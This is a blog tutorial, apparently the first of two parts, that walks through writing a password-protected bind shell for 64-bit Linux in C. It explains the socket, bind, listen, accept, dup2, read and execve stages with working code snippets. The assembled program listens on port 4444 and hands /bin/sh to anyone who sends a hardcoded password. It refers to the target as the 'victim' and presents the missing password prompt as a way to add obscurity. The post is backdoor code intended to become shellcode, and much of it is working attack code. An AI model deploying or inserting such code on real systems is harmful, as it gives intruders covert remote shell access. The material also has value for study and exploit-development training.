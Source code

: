 ```yaml
---
title: "Writing a password protected bind shell in C"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.
To accomplish this goal, we need to take this process through 3 parts:
Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.
Secondly, the C code needs to be ported to x86_64 Assembly code.
Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.
This blog post will consist of two parts:
Part 1 - Writing a password protected bind shell in the C Programming Language
Par 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode
 PART 1 - Writing a password protected bind shell for Linux in C
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.
What is a Bind Shell?
A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.
Creating the Bind Shell
In the process of creating a bind shell, we will be stepping through 7 stages:
Creating a new socket
Binding the newly created socket to a port
Listen for incoming connections on the newly created socket
Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.
Wait for input (password) to be received and compare it against the correct password string
Spawn the shell, if password is correct
So let's get started in coding out the 7 stages.
Stage 1 - Creating a new socket
The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```c++
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. Referring to the man page for socket, it requires 3 arguments:
Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)
Communication Type - We will use SOCK_STREAM (TCP)
The third argument does not concern us so we will only pass 0

```c++
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.
Stage 2 - Binding the newly created socket to a port
In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:
The socket to bind to - We will use our new socket "sock"
Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.
Length of the data structure passed in argument 2. This was declared during the skeleton code stage.

```c++
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

Stage 3 - Listen for incoming connections on the newly created socket
The listen syscall accepts 2 arguments:
File descriptor of new socket in Stage 1
Backlog - Maximum number of pending connections in the queue

```c++
listen(sock, 2);
```

Stage 4 - Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
For this stage we will wait for connections on our newly created socket, using the accept syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.
The accept syscall takes 3 arguments:
The socket we are listening on
Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. 
Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.

```c++
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.
Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities
For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```c++
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

Stage 6 - Wait for input (password) to be received and compare it against the correct password string
Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.
The read syscall accept 3 arguments:
File descriptor of our newly created socket
Buffer - was assigned at the variables section of the code
Number of bytes to read from the file descriptor into the buffer
We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```c++
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

Stage 7 - Spawn the shell, if password is correct
So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.
The execve syscall executes a program using:
Pathname of the executable or script to run
A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable
Environmental variables for use by the program - We set this to NULL as we are not concerned with this

```c++
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.
The code for the password protected bind shell can be found here.
I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.
In PART 2 we will be discussing how to port all of the above to x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
